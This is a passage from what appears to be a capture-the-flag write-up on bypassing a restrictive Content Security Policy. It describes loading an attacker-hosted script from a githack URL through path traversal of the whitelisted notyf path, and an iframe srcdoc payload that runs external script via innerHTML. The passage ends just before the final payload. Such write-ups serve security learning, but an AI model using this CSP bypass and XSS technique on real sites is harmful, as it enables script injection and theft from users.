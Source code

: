 Here are the CSP:
```
script-src rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/ 'self'; object-src 'none'; trusted-types default color integer;
```

This CSP will not help us because it's very restrictive... 

Here is a quick explanation of it:
```
script-src rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/ 'self'; -> Allows script loaded from current website or from rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/
object-src 'none'; -> Disallows completely object tag
trusted-types default color integer; -> Not important for this challenge
```

We probably have to exploit ``rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/`` source, so let's check.

**What is githack?**

[Githack](http://raw.githack.com/) is a website where it's possible to store a raw version of a github file. In our application context, it allows the website to load js functions and style from caroso1222's repo.


**Host our evil js file**

In our case, we can exploit it because if we create a repo on github (``exploit`` for example) with a file named ``exploit.js``, we can have a raw version of the script which we can try to load on the page.

I also created a release named ``v1.0.1`` to simulate as much as possible caroso1222's repo url.

![rawcdn](images/rawcdn.png)

So we see that we need username, repo, tag and file name because we want an url which strats with ``rawcdn.githack.com``.

So our script can be loaded with this url: ``https://rawcdn.githack.com/Ruulian/exploit/v1.0.1/exploit.js``.

There is a little problem with that, CSP only allows scripts from ``rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/`` and our evil script is at ``rawcdn.githack.com/Ruulian/exploit/v1.0.1/exploit.js``. How can we do that?

**Path Traversal**

The trick is to call our script from caroso1222's script like that: ``https://rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/../../../../Ruulian/exploit/v1.0.1/exploit.js``.

But we always have a problem... We can't use ``<script>`` tag because of innerHTML. So how could we load an external script?

According to this [tweet](https://twitter.com/foobar0x7/status/1293791796401766400), we can load an external script in innerHTML with this payload: ``<iframe srcdoc="<script src=//whitelisted.com></script>">``

So we can adapt our payload:
